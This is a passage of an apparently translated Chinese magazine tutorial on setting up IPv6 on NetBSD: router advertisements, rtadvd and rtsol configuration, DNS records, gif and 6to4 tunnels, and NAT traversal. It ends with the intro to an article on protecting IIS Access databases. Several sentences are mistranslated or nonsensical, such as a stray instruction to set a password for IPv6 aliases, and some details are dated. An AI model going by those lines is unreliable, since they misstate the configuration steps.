0240 05ff fea0 8e08 ff02 0000 0000 0000
0000 0000 0000 0001 8600 d38d 4000 0708
0000 7530 0000 03e8 0101 0040 05a0 8e08
0501 0000 0000 05dc 0304 40c0 0027 8d00
0009 3a80 0000 0000 2001 0218 0420 0000
0000 0000 0000 0000
```

主机捕捉到这些广播的信息，并且配置全局的 IPv6 地址和缺省的路由器。在主机上运行 ndp，我们能看到很多详细的关于路由器的近期广播的信息。

```bash
host% ifconfig ne2
ne2: flags=8863<UP,BROADCAST,NOTRAILERS,RUNNING,SIMPLEX,MULTICAST> mtu 1500
media: Ethernet manual
inet6 fe80::a00:5aff:fe38:6f86%ne2 prefixlen 64 scopeid 0x1
inet6 2001:218:420:0:a00:5aff:fe38:6f86 prefixlen 64
```

随意地通过发送一个 ICMPv6 “router solicitation” 包，这个主机能请求一个来自路由器的广播。Rtsol 传播路由器的请求包。假如你运行一个易变的节点，可以运行 rtsold 并且定期地转送路由器的请求，这个数据包有如下内容：

```text
14:18:20.300501 fe80::a00:5aff:fe38:6f86 > ff02::2: icmp6: router solicitation\
(src lladdr: 8:0:5a:38:6f:86) (len 16, hlim 255)
6000 0000 0010 3aff fe80 0000 0000 0000
0a00 5aff fe38 6f86 ff02 0000 0000 0000
0000 0000 0000 0002 8500 d7b0 0000 0000
0101 0800 5a38 6f86
```

### 建立一个 IPv6 路由器和 IPv6 主机

#### 1. 建立 IPv6 路由器

首先，你需要获得一个来自 upstream 供应者的、IPv6 全局地址。如果你已经有了这个地址，可以根据以下这些步骤来配置：

- 1. 为网络接口加手动配置到 `/etc/ifconfig`，`rc.conf` 或者 `/etc/netstart.local`。
- 2. 配置以下这些在 `rc.conf` 中：
```bash
ip6mode="router"
rtsol="NO"
rtadvd="YES" 
rtadvd_flags="sm1 ne2" # set interfaces to advertise
```
- 3. 微调路由器的广播时间，你就需要编辑 `/etc/rtadvd.conf`。
- 4. 你想要通过使用 RIPng 来给路由器发个请求，为了运行 route6d 来配置 `rc.conf`。
- 5. 执行重新启动。

自动配置路由器是不可能的，所以到头来，我们从中可能什么也得不到。

#### 2. 建立一个 IPv6 主机

假如你有一个 IPv6 路由器在网络上，你需要做如下设置。在重新启动以后，主机将用 Router Advertisements 来自动配置，Router Advertisements 在邻近路由器上的 rtadvd 中。配置如下这些在 `rc.conf` 中：

```bash
ip6mode="autohost"
rtsol="YES" 
rtsol_flags="sm1" # set your interface here. 
# For the 2nd line, alternatively, you can use /etc/ifconfig.${IF}, like below: 
# up !rtsol $int
```

最后重启。假如没有 IPv6 路由器在网络上，你可以手动配置你的系统。

## 手动配置方面的安全要点

因为 IPv6 的地址变成了 128 比特，那么手动配置出现错误的概率就会比较高，所以要尽量少用手动来配置。若要配置一个路由到另一个路由的话，可以运行 `route6d` 程序。若要在主机上配置一个接口地址的话，通过配置 `ip6mode=autohost` 和 `rtsol=YES` 来从邻近的路由器上得到信息。手动配置的话，维护就非常麻烦。但如果必须手动配置的话，比如手动配置一个节点，给网络接口加手动配置到 `rc.conf` 里。首先，必须通过设置 `ip6mode` 来声明节点（主机或者路由器）的属性，如下：

```bash
ip6mode="router"    # forward packets for others
ip6mode="host"      # do not forward packets for others
```

这时，加接口配置到 `rc.conf` 里，或者其他的文件资源，比如说 `/etc/ifconfig.xxN`。在 `/etc/ifconfig.xxN` 里面你可以这样做：

```bash
inet 10.1.1.1 netmask 0xffffff00
inet6 3ffe:501:ffff::1 prefixlen 64 alias
```

注意：“alias”在这一行的结尾。如果有多个接口地址带有 IPv6 协议时，强制设置一个密码。假如你通过 `rc.conf` 的配置是不隐藏的，配置可以添加到 `/etc/netstart.local` 或 `/etc/rc.local` 里。你要用到以下这些程序：

- **ifconfig**：观察或者改变一个网络接口的特性。
- **Route**：用于操作网络路由表的工具。

## 给网络上的新节点命名

通过 `/etc/hosts` 主机名被转换为 IPv6 地址，这和 IPv4 非常相似。YP（一个配置工具）就是非常有用的，操作如下：

- 1. `/etc/hosts`：对于一些节点的小网络，主机名/IP 映射可以手动复制到每个节点的 `/etc/hosts` 文件里。如下所示：

```text
/etc/hosts:
3ffe:501:ffff::a:b:c:d    host2.mydomain.org.au    host2
```

- 2. DNS：假如主机名的映射被集中到 zone-files 里，那么可以通过服务器的名字来访问 Named。如下所示：

```text
Forward zone file entry:
host2   IN AAAA   3ffe:501:ffff::a:b:c:d

Reverse zone file entry:
d.0.0.0.c.0.0.0.b.0.0.0.a.0.0.0.0.0.0.0.f.f.f.f.1.0.5.0.e.f.f.3.ip6.arpa.
IN PTR   host2.mydomain.org.au.
```

注意：假如你已经知道关于 A6 记录和对 DNS-A6 的位字符串标签，AAAA 用来产生服务，并且正常运转。还要注意反向 DNS 平台从 `ip6.int` 移到 `ip6.arpa`。6Bone (3ffe) 的地址仅仅在 `ip6.int` 里可以知道。当 `ip6.int` 消失时，地址应当在 `ip6.arpa` 下请求。

需要注意的是，以下的地址不一定出现在全局 DNS 分布上：

- 1. link-local 地址（匹配 fe80::/10，如 fe80::1）
- 2. site-local 地址（匹配 fec0::/10，如 fec0::1）
- 3. v4 mapped 地址（匹配 ::ffff:0.0.0.0/96，如 ::ffff:10.1.1.1）

这些地址在节点上仅为内部使用，不能直接放到 DNS 数据库里。不推荐将这些地址放在 DNS 分布：

- multicast 地址（匹配 ff00::/8，如 ff05::1）

对于 NetBSD/KAME IPv6 编码，由于缺少支持，所以放以下这些地址是没有意义的：

- v4 compatible 地址（匹配 ::0.0.0.0/96，如 ::10.1.1.1）

NetBSD/KAME 不支持 RFC2893 里的自动隧道。

## IPv6 的反向连接

这个取决于 ISP 的状况：你能获得本地 IPv6 的连通性，或者你能得到隧道的连通性（IPv6 包封装到 IPv4 包）。以下来说明后者的情况。

你可以接通你的机器实验 IPv6 的网络，这叫做“6bone”。你将与最近的 6bone 站点接通会话，来获得你的 IPv6 地址前缀。注意，对于这些你必须有一个固定的 IPv4 全局地址。假如你没有固定的 IPv4 全局地址（比如你用拨号 ISP 连接），你可以连接到 Freenet6。当你联接到 Internet 上时，它们提供 Web 接口是为了能连接到你的局域网。

在两者都有的情况下，你需要建立一个 IPv6-over-IPv4 隧道接口在路由器上。请参考 `gif` 的详细资料。

### 1．建立一个 gif 隧道

创建 `/etc/ifconfig.gif0` 带着以下内容：第一个（x.x.x.x）是本地 IPv4 的地址，第二个（y.y.y.y）是远程端点的 IPv4 地址：

```bash
create            (only needed on post-1.5)
tunnel x.x.x.x y.y.y.y
```

也可以加以下内容到 `/etc/netstart.local` 或者 `/etc/rc.local`：

```bash
# ifconfig gif0 create        (only needed on post-1.5)
# ifconfig gif0 tunnel x.x.x.x y.y.y.y
```

假如你的系统是 pre 1.5，并且 `ifconfig` 不支持 “tunnel” 关键字，可以用 `gifconfig` 配置如下：

```bash
# gifconfig gif0 x.x.x.x y.y.y.y
```

### 2．检查隧道是否正常工作

首先试试调用以下命令：

```bash
# ping6 -n ff02::1%gif0
```

假如你看到两个数据包，一个来自本地节点，而另外一个来自远程节点，说明隧道工作正常。要是 x.x.x.x 和 y.y.y.y 之间有可达性的问题出现，则可能仅看到一个回应，或者就没有回应。如果你遇到麻烦的话，可以根据以下方法操作：

- 1. 确定没有 NAT 设备，隧道 IPv6 数据包不能通过这个 NAT 设备。
- 2. 确定没有任何 IPv4 包过滤器。

### 3．交换通道

这个取决于你的 upstream 配置，你应该建立一个缺省的通道到 upstream，或者运行一个路由后台程序。

以上配置可以用 RFC2893 IPv6-over-IPv4 来配置隧道。注意，RFC2893 数据包不能通过 NAT 路由器。

## 典型的 IPv6 网络安装——来自于 upstream 并带有 /48 前缀

假设你已经获得你的地址前缀（3ffe:0501:ffff::/48 来自 upstream），假如你有两个以太网的节点在你的局域网里，如图 1 所示。我们的两个路由器 A 和 B 运行 IPv6-capable NetBSD。IPv4 地址被如下分配，你希望连接到反向通过 IPv6-over-IPv4 隧道，从在 x.x.0.1/24 路由器到在 y.y.y.10 的 upstream 路由。



首先，你必须配置你的隧道从我的路由器 A 到 upstream，在我的路由器 A（myrouter A）上用 `ifconfig` 来配置隧道。通过使用 `ping6` 确认能达通性。能，“ff02::1”被作为所有节点多点传送的地址提到。在这种情况下，地址能到达隧道里的所有节点、我的路由器 A 和 upstream 路由。假如你从这两个节点上得到回答，说明隧道工作良好。假如你仅从一个 A 节点上得到回答，在你和 upstream 之间一些事就会变得非常糟糕。它能被 IPv4 过滤，也可能是错误的配置或者其他一些事。

```bash
# ifconfig gif0 create (only needed on post-1.5)
# ifconfig gif0 tunnel x.x.0.1 y.y.y.10
# ping6 -I gif0 -n ff02::1
PING6(56=40+8+8 bytes) fe80::a00:5aff:fe38:6f86 --> ff02::1
16 bytes from fe80::a00:5aff:fe38:6f86%lo0 icmp_seq=0 hlim=64 time=0.334 ms
16 bytes from fe80::240:5ff:fea7:f092%gif0 icmp_seq=0 hlim=64 time=3.416 ms(DUP!)
```

接下来，你需要从你的地址块中赋值给子网络地址 3ffe:0501:ffff::/48 到你的两个以太网段。因为前缀的长度对于 IPv6 的子网络来说总是 /64，所以你要使 65536 个子网络可以利用。赋值 3ffe:0501:ffff:0000::/64 到以太网 0，而 3ffe:0501:ffff:0001::/64 到以太网 1（图 2）。



然后我们赋值给 IPv6 的全局地址到你的路由器，因为路由器必须手动来配置，你需要执行 `ifconfig` 作相关手动配置。对于 myrouter A，寻找本地连接 IPv6 的地址（它以“fe80”开头），选择低 64 bits，来自子网络的地址隶属于上面的 64 bits，并且配置它。可以设置到 `/etc/ifconfig.ne2`，并且应用设置需要重启系统。

```bash
# ifconfig ne2
ne2: flags=8863<UP,BROADCAST,NOTRAILERS,RUNNING,SIMPLEX,MULTICAST> mtu 1500
        address: 08:00:5a:38:6f:86
        media: Ethernet manual
        inet x.x.x.1 netmask 0xffffff00 broadcast x.x.x.255
        inet6 fe80::a00:5aff:fe38:6f86%ne2 prefixlen 64 scopeid 0x1
# ifconfig ne2 inet6 3ffe:501:ffff:0:a00:5aff:fe38:6f86 prefixlen 64 alias
# echo "inet6 3ffe:501:ffff:0:a00:5aff:fe38:6f86 prefixlen 64 alias" >> /etc/ifconfig.ne2

For myrouter B, do the similar thing:
# ifconfig tlp0 inet6 3ffe:501:ffff:0:a00:5aff:fe38:8765 prefixlen 64 alias
        (ethernet 0 side)
# ifconfig tlp1 inet6 3ffe:501:ffff:1:a00:5aff:fe38:9710 prefixlen 64 alias
        (ethernet 1 side)
```

为了交换路由信息，你需要在两个路由上运行 `route6d`。现在连接到 upstream 应该没有问题了，试着 Ping 一个外部 IPv6 的节点，不要忘了加 “-n” 到 `ping6`。在你测试的时候，查询 IPv6 upstream 地址可能要花费好长时间，所以用 `-n` 避开它。

```bash
# route6d (on both routers)
# ping6 -n www.6bone.net
```

假如你有一个目标主机（没有路由的节点）在你的网络上，这需要你的路由器广播子网络的信息到你的目标主机。通过做这些事情，使你的目标主机能自动配置，你只需要准备 `/etc/rtadvd.conf`，并且运行 `rtadvd`。注意你应该从 upstream 的路由器上广播子网络的信息，在这一步中，你的 myrouter A 应该在以太网 0 启用，并且 myrouter B 在以太网 0 和 1 启用。你想使它失去从 myrouter B 到以太网 0 发送信息的能力，因为 A 是该网段最佳的缺省路由。假如你不能使它失去能力，当 myrouter A 停止的时候，在以太网 0 上的主机将不能与外部网络会话。

```text
# rtadvd ne2 (from myrouter A to ethernet 0)
# rtadvd tlp0 tlp1 (from myrouter B to ethernet 0 and 1)
```

这时为了它能自动配置，你就需要运行 `rtsol` 或者 `rtsold` 在目标节点上。

## 典型的 IPv6 网络安装——带有 6to4/48 前缀

假如你有多个静态的全局 IPv4 地址，对你自己的 /48 IPv6 前缀，可以用 6to4 机制 (RFC3056)。一个 “public 6to4 relay router” 隧道需要配置其中一台机器作为 6to4 网关，封装 IPv6 数据包到 IPv4 并且发送它们到 6to4 转送路由。假如你的 IPv4 地址是 x.y.z.u，那么你的 IPv6 前缀就是 2002:xxyy:zzuu::/48（xx、yy、zz 和 uu 是十六进制符号，分别和 x.y.z.u 一一对应）。假如你的 ISP 给你一个私有的 IPv4 地址（比如说 10.x.x.x），你不能用这个机制。这个机制将不能通过 NAT 设备工作。

让我们采取如图 3 所示的布局，并且 myrouter A 有一个 IPv4 地址 x.y.z.u。对于 myrouter B 来说，IPv4 地址无关紧要。



首先，你必须在 myrouter A 上配置 6to4 隧道接口。我们要取一个 IPv6 子网络前缀（2002:xxyy:zzuu:0000::/64）用在隧道上。RFC 3068 发布以后，现在人人都用 6to4 来配置他们的缺省路由到 2002:c058:6301::，对于最近的转递路由来说，anycast 地址是不可思议的。这里也有关于公共转递路由的列表，可以从列表中选择。注意接口不能发送 IPv6 多播时，在 `stf0` 接口上你不能用 `ff02::1` 测试。因此，如果缺省 GENERIC 内核不能使用接口 `stf0` 时，你就需要重新编译你的内核。

```text
# ifconfig stf0 create (only needed on post-1.5)
# ifconfig stf0 inet6 2002:xxyy:zzuu:0000::1 prefixlen 16 alias
# route add -inet6 default 2002:c058:6301:: (or another one from the list)
```

接下来，你需要从地址块上给子网络地址赋值到你的两个以太网段。我们已经把 2002:xxyy:zzuu:0000::/64 用在了隧道上，就不能在以太网接口上用了。在这里，我们可以用 2002:xxyy:zzuu:0001::/64 和 2002:xxyy:zzuu:0002::/64，如图 4 所示。



现在可以回到前一部分来安装 myrouter B，还有 RIPng 路由，当然也少不了路由器广播。

## 解决 DNS 名越过 IPv6

为了进入一个完全的 IPv6 环境，你需要用 IPv6 传输连接一个名字服务器。这个非常简单，你只要放 IPv6 地址到 `resolv.conf` 里就可以了。假如你想在一个现有的 DNS 服务器上运行 IPv6 transport，可以试试运行 bind9，配置如下：

```text
nameserver 3ffe:501:4819::42
```

在上面的地址里，一个处于正常状态的 IPv6-ready DNS 服务器正在运行。

## 如何使用 FAITH TCP 转译

我们不能直接连接一个 IPv6-only 客户端到 IPv4 的服务器上，这需要一个叫 “translator” 的设备。NetBSD 配备了 `faithd` TCP 转译，它可以通过用 IPv6 TCP 使 IPv6-only（或 IPv4/v6）客户端能够连接到 IPv4-only 服务器端上。通过用带 `totd` 的 DNS 代理服务，你能安装一个 IPv6-to-IPv4 translator 的环境，如图 5 所示：



## IPv6 通过 IPv4 路由器和 NAT 路由器

假如你现在的机制里有一个 IPv4-only 路由、IPv4 NAT 路由器，或者其他 IPv6 网络的障碍，你可以用以下方法越过这些障碍。从下面的方法中，选择一个与你最相配的网络配置：

- 在以太网段之间放了两个路由器，一个对 IPv4，一个对 IPv6。你可以只放 IPv6-only 路由在两段之间，仅使 IPv6 路由能用，这个方法没有涉及到 IPv4（图 6）。
- 在 IPv4 中，私有/全局地址的使用不需要 IPv6 网络。假如你管理网络的办法是允许的话，当 IPv4 网络从私有地址段和全局地址段分离时，你能通过 NAT box/firewalls 来配置全局 IPv6 的可达性，如图 7 所示：



- 在一些情况下，你可以用普通的 IPv4 打造一个在段之间进行 IPv6 交换的桥梁。如果能配置你的 IPv4 路由器通过以太网协议类型 0x86dd，也就只能架一个 IPv6 输送。在这种情况下，IPv6 和 IPv4 之间子网络的分配就会变得不一样了，这些事做得太多，很让人头痛（图 8）。



- 在你的机制中，如果你需要两个较远位置之间的 IPv4 可达性，可以用 IPv6-over-IPv4 隧道来通过 IPv4-only 网络（图 9）。



## 后记

IPv6 增加了许多新的特性，其中高性能、安全性和稳定性是计算机系统永恒的主题，也是我们不断的追求。最后，我希望这些对大家在学习研究方面能有所帮助，使大家能够从 IPv4 顺利过渡到 IPv6。

## 安全配置 IIS 防止数据库下载

**脚本小子**：以前《黑客防线》曾刊登过防止 Access 数据库被下载的文章，近日偶遇 Net·PK，和他谈起防止 Access 数据库被非法下载的问题，他说其实这算是 Windows 系统的一种固有漏洞，正好他刚研究出一个方法来防止这样的漏洞，其实就是通过配置 IIS 来达到目的的，采用的防范手段却和以前刊登的很不一样。仔细听了他的述说，觉得立意很巧妙，于是就请他撰写了本文以飨广大网管，使他们早日摆脱网站 Access 数据库被非法下载的困扰。

**难度等级**：中
**前置知识**：IIS，Windows 2000 Server 使用经验

